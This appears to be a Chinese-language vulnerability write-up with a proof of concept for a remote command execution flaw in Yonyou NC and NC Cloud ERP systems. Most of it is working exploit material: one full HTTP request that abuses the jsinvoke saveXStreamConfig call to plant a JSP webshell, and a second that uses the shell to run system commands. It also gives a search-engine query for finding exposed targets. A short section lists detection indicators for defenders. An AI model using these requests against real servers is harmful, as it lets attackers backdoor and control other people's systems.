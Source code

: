 # 用友NC Cloud存在前台远程命令执行漏洞

## 漏洞描述

用友NC及NC Cloud系统存在任意文件上传漏洞，攻击者可通过uapjs（jsinvoke）应用构造恶意请求非法上传后门程序，此漏洞可以给NC服务器预埋后门，从而可以随意操作服务器。

## 影响范围

- NC63、NC633、NC65
- NC Cloud1903、NC Cloud1909
- NC Cloud2005、NC Cloud2105、NC Cloud2111
- YonBIP 高级版 2207

网络空间测绘语法：app="用友-NC-Cloud"

## 漏洞复现

poc：上传823780482.jsp的webshell

```
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded
 
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/823780482.jsp"]}
```

poc：执行ipconfig命令

```
POST /823780482.jsp?error=bsh.Interpreter HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: cookiets=1681785470496; JSESSIONID=33989F450B1EA57D4D3ED07A343770FF.server
If-None-Match: W/"1571-1589211696000"
If-Modified-Since: Mon, 11 May 2020 15:41:36 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
 
cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("ipconfig").getInputStream())
```

## 分析研判

分析主要从请求方法、请求URL路径、请求内容及返回内容方面进行。

- POST请求方法
- 请求路径"/uapjs/jsinvoke?action=invoke"
- 请求内容"getRuntime().exec"、"saveXStreamConfig"
- 结合响应状态码200、内容body信息

## 参考链接

用友NC Cloud存在前台远程命令执行漏洞 附POC软件

<https://blog.csdn.net/nnn2188185/article/details/131894129>

用友NC uapjs RCE漏洞

<https://cn-sec.com/archives/1894623.html>
